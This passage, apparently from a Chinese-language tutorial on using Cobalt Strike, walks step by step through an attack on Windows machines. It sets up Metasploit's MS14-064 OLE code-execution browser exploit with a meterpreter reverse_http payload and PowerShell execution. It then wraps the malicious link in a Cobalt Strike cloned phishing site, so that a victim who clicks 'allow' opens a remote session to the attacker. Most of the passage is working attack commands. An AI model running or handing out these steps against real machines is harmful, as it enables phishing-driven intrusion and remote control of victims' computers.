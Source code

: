 

### 步骤	

在kali上输入`msfconsole`打开metasploit, 再输入`use exploit/windows/browser/ms14_064_ole_code_execution`选择相应模块

然后输入如下命令开始执行攻击, 随后会返回一个url钓鱼连接:`http://192.168.47.144:8080/lCKUuRHyz1`

```
set srvhost 192.168.47.144 //设置msf服务器的ip

set srvport 8080  //设置恶意连接的访问端口

set payload windows/meterpreter/reverse_http  //设置监听协议

set allowpowershellprompt true  //使用powershell执行代码

set lhost 192.168.47.134  //设置监听服务器的ip

set lport 80  //设置监听服务器的端口

run  //开始执行
```

![image-20221007163250674](Cobalt Strike的使用/image-20221007163250674.png)



在CS生成克隆网站, 攻击选项处填写刚生成的url钓鱼链接, 生成的克隆网站链接为`http://192.168.47.134:80/baidu`

![image-20221007164045381](Cobalt Strike的使用/image-20221007164045381.png)	

![image-20221007164105955](Cobalt Strike的使用/image-20221007164105955.png)	



受害机访问克隆网站后会弹出警告框, 询问你是否允许执行powershell, 若点击允许则在CS成功上线

<img src="Cobalt Strike的使用/image-20221007164448111.png" alt="image-20221007164448111" style="zoom:67%;" />	
